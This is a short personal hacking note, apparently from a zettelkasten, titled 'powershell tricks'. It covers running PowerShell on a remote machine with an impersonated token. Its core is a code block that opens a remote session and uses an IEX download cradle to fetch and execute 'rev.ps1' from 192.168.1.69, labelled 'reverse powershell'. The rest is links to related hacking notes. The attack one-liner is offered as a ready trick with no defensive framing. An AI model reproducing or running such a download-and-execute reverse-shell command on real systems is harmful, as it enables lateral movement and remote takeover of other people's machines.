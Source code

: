 # powershell tricks run powershell commands as another user on remote machine with impersonated token
```powershell
$sess = New-PSSession -computer ComputerHostname
# reverse powershell
Invoke-Command -Session $sess -ScriptBlock { IEX(New-Object Net.WebClient).downloadString('http://192.168.1.69/rev.ps1') }
```

# References
- [20221003150475](/zet/20221003150475/) powershell tricks run powershell commands as another user
- [20221003150471](/zet/20221003150471/) powershell tricks run powershell commands as another user on remote machine with impersonated token copy and run file over session
- ~/kb/hacking/powershell/powershell-tricks.md

Tags:
    #assorted

